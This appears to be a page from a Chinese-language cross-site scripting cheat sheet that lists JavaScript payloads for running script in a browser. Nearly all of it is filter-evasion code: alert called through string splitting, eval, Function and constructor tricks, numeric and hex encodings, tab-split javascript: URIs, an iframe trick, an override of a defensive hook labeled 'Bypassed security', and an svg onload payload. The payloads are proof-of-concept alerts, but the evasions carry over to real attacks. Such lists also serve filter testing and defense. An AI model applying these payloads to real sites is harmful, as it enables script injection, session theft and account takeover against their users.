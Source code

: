 	document.location.href="http://google.com"
	window.location.assign("http://google.com")
	window['location']['href']="http://google.com"
  ##### 其他方式的alert
  	window['alert'](0)
  	parent['alert'](1)
  	self['alert'](2)
  	top['alert'](3)
  	this['alert'](4)
  	frames['alert'](5)
  	content['alert'](6)
  	
  	[7].map(alert)
  	[8].find(alert)
  	[9].every(alert)
  	[10].filter(alert)
  	[11].findIndex(alert)
  	[12].forEach(alert);
  	
  	prompt`${document.domain}`
  	document.location='java\tscript:alert(1)'
  	document.location='java\rscript:alert(1)'
  	document.location='java\tscript:alert(1)'
  	
  	eval('ale'+'rt(0)');
  	Function("ale"+"rt(1)")();
  	new Function`al\ert\`6\``;
  	
  	constructor.constructor("aler"+"t(3)")();
  	[].filter.constructor('ale'+'rt(4)')();
  	
  	top["al"+"ert"](5);
  	top[8680439..toString(30)](7);
  	top[/al/.source+/ert/.source](8);
  	top['al\x65rt'](9);
  	
  	open('java'+'script:ale'+'rt(11)');
  	location='javascript:ale'+'rt(12)';
  	
  	setTimeout`alert\u0028document.domain\u0029`;
  	setTimeout('ale'+'rt(2)');
  	setInterval('ale'+'rt(10)');
  	Set.constructor('ale'+'rt(13)')();
  	Set.constructor`al\x65rt\x2814\x29```;
  	
  	var i = document.createElement("iframe");
  	i.onload = function(){
  	  i.contentWindow.alert(1);
  	}
  	document.appendChild(i);
  	
  	// Bypassed security
  	XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
  	      var proxy = obj[name];
  	      obj[name] = function () {
  	        if (exec_original) {
  	          return proxy.apply(this, arguments);
  	        }
  	      };
  	      XSSObject.lockdown(obj, name);
  	  };
  	XSSObject.proxy(window, 'alert', 'window.alert', false);
  ##### 
  	<svg onload=alert(1)//
